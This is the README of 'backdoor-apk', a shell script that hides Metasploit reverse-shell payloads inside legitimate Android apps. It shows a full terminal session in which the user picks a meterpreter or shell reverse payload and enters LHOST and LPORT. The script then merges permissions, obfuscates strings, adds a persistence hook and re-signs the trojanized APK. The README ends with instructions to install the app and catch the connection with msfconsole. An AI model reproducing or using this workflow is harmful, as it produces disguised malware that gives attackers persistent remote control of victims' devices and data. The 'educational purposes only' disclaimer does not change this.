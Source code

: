 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.1 on Fri Mar 10 22:30:34 EST 2017
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
